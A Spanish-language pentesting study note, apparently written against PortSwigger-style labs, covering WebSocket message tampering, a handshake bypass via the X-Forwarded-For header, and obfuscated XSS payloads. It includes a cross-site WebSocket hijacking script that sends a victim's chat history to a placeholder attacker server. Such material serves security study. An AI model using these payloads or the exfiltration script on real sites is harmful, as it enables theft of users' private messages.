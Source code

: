# WebSockets Attacks

## Table of contents

- [WebSockets Attacks](#websockets-attacks)
  - [INTRODUCCION](#introduccion)
  - [¿Cuál es la diferencia entre HTTP y WebSockets?](#cul-es-la-diferencia-entre-http-y-websockets)
  - [USO](#uso)
  - [VULNERABILIDADES](#vulnerabilidades)
    - [MANIPULACION DE MENSAJES (XSS exploit)](#manipulacion-de-mensajes-xss-exploit)
    - [Manipulating the WebSocket handshake (XSS exploit)](#manipulating-the-websocket-handshake-xss-exploit)
    - [Cross-site WebSocket hijacking](#cross-site-websocket-hijacking)

## INTRODUCCION

[Los WebSockets](https://portswigger.net/web-security/websockets) son un protocolo de comunicaciones full dúplex bidireccional que se inicia a través de HTTP. Se usan comúnmente en aplicaciones web modernas para transmitir datos y otro tráfico asíncrono.

## ¿Cuál es la diferencia entre HTTP y WebSockets?

La mayoría de las comunicaciones entre los navegadores web y los sitios web utilizan HTTP. Con HTTP, el cliente envía una solicitud y el servidor devuelve una respuesta. Normalmente, la respuesta se produce inmediatamente y la transacción se completa. Incluso si la conexión de red permanece abierta, se usará para una transacción separada de una solicitud y una respuesta.

Algunos sitios web modernos usan WebSockets. Las conexiones de WebSocket se inician a través de HTTP y, por lo general, son de larga duración. Los mensajes se pueden enviar en cualquier dirección en cualquier momento y no son de naturaleza transaccional. La conexión normalmente permanecerá abierta e inactiva hasta que el cliente o el servidor estén listos para enviar un mensaje.

Por ejemplo, el uso de los chats de whatsapp hace uso de websockets ya un canal se queda a la escuhca de nuevos mensajes que te llegan para luego notificarte.

## USO

Los WebSockets se utilizan ampliamente en las aplicaciones web modernas. Se inician a través de HTTP y proporcionan conexiones de larga duración con comunicación asíncrona en ambas direcciones.

Los WebSockets se utilizan para todo tipo de propósitos, incluida la realización de acciones de usuario y la transmisión de información confidencial. Prácticamente cualquier vulnerabilidad de seguridad web que surja con HTTP normal también puede surgir en relación con las comunicaciones de WebSockets.

## VULNERABILIDADES

Al igual que una pagina web basada en HTTP, los websockets pueden ser vulnerables a la mayoria de ataques web conocidos tanto de frontend como de backend.

![[Pasted image 20230206221250.png]]

### MANIPULACION DE MENSAJES (XSS exploit)

Al igual que cualquier otra peticion, podemos interceptar las peticiones de web sockets, por ejemplo de un chat:

![[Pasted image 20230206223243.png]]

![[Pasted image 20230206223306.png]]

podemos editar el mensaje para probar cualquier tipo de ataque (XSS, SQLi, SSRF, LFI, etc), vamos aprobar XSS:

![[Pasted image 20230206223440.png]]

le damos a forward, como el chat se refleja en pantalla se nos muestra el payload:

![[Pasted image 20230206223920.png]]

>[!tip]
>Si se tarda mucho en el intercept puede que el websocket se pare un momento y no cargue el payload, por lo que al interceptar se tiene que colocar el payload rapidamente y darle forward.

### Manipulating the WebSocket handshake (XSS exploit)

Podemos ver el historial de comunicacion en la opcion **WebSockets History**:

![[Pasted image 20230206225012.png]]

damos click derecho y podemos mandarlo al repeater, la diferencia con una web normal es que aqui priumero intentara conectarse con el servidor para establecer el websocket:

![[Pasted image 20230206225209.png]]

en este caso no se puede establecer comunicacion y vemos un mensaje en la respuesta:

![[Pasted image 20230206225243.png]]

podemos intentar evadir esto colocando el header `X-Forwarded-For`:

![[Pasted image 20230206225554.png]]

>[!tip]
>Podemos colocar cualquier valor u otra IP en caso de que falle (127.0.0.1, 255.255.255.0, 127.0.0.2, etc)

ya una vez conectados podemos probar cualquier mensaje:

![[Pasted image 20230206225859.png]]

ahora podemos enviar un payload XSS para evadir protecciones:

```html
<img src=1 oNeRrOr=alert`1`>
```

o este 0day:

```javascript
"><sVg/OnLuFy="X=y"oNloaD=;1^confirm(1)>/``^1//
```

### Cross-site WebSocket hijacking

Implica una vulnerabilidad de falsificación de solicitud entre sitios (CSRF) en un protocolo de enlace de WebSocket . Surge cuando la solicitud de protocolo de enlace de WebSocket se basa únicamente en las cookies HTTP para el manejo de la sesión y no contiene tokens CSRF u otros valores impredecibles.

**EJEMPLO**

Al enviar el comando **READY** al websocket server recupera los mensajes de chat anteriores del servidor.

![[Pasted image 20230206233646.png]]

como la peticion de ver el chat no tiene un token CSRF:

![[Pasted image 20230206233802.png]]

podemos crear un script que realice la peticion al servidor websocket y mande el comando **READY** y cada resultado del chat exfiltrarlo por un parametro GET a nuestro servidor de atacante, creamos el siguiente script:

```javascript
<script>
    var ws = new WebSocket('wss://<WEBSOCKET-SERVER>');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://<ATTACKER-SERVER>', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```

**WEBSOCKET-SERVER:**

![[Pasted image 20230206234104.png]]

**ATTACKER-SERVER:**

![[Pasted image 20230206234137.png]]

mandamos a la victima y cuando abra nuestro exploit recuperaremos sus otros chats privados:

![[Pasted image 20230206234333.png]]